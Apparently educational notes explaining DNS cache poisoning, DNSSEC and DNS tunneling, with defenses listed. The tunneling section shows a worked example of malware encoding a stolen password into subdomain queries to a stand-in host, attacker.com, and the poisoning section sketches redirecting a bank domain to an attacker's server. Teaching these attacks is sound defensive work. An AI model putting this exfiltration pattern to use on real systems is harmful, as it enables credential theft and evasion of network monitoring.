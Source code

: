 ### **DNS Cache Poisoning (Cache Spoofing)**

**What it is**: An attack that injects false DNS records into a recursive resolver's cache.

**How it works**:
1. Attacker sends a DNS query to a recursive resolver
2. Attacker quickly sends **forged responses** pretending to be from authoritative servers
3. If the forged response arrives before the legitimate one, the resolver caches the false information
4. All subsequent queries for that domain get the poisoned (incorrect) IP address

**Attack scenario**:
```
1. You query your ISP's DNS for bank.com
2. Attacker intercepts and sends fake response: bank.com → 203.0.113.66 (attacker's server)
3. DNS server caches this false mapping
4. All users get redirected to attacker's fake banking site
```

**Classic example**: Dan Kaminsky's 2008 discovery of a major DNS cache poisoning vulnerability.

**Defenses**:
- Random source port selection
- Query ID randomization
- DNSSEC (see below)

### **DNSSEC (DNS Security Extensions)**

**What it is**: Cryptographic authentication for DNS responses.

**What it provides**:
- **Authentication**: Verifies responses actually come from authoritative nameservers
- **Integrity**: Ensures responses haven't been tampered with in transit
- **Does NOT provide**: Confidentiality (queries and responses are still visible)

**How it works** [Inference]:
- Authoritative servers cryptographically sign DNS records
- Resolvers verify signatures using a chain of trust from root servers down
- If signature verification fails, the response is rejected

**Adoption challenge** [Unverified]: DNSSEC deployment has been slow due to complexity and operational overhead.

### **DNS Tunneling**

**What it is**: A technique to **exfiltrate data** or establish covert communication channels through DNS queries.

**Why it works**:
- DNS traffic is usually allowed through firewalls (port 53)
- Organizations often don't inspect DNS traffic closely
- DNS queries can contain arbitrary subdomain strings

**How data exfiltration works**:
```
Attacker wants to steal the password "SecretPass123"

Malware encodes data into DNS queries:
1. Query: U2VjcmV0.attacker.com
2. Query: UGFzczEy.attacker.com  
3. Query: Mw==.attacker.com

Attacker's authoritative DNS server receives and decodes these queries
Data has been exfiltrated without triggering firewall alerts
```
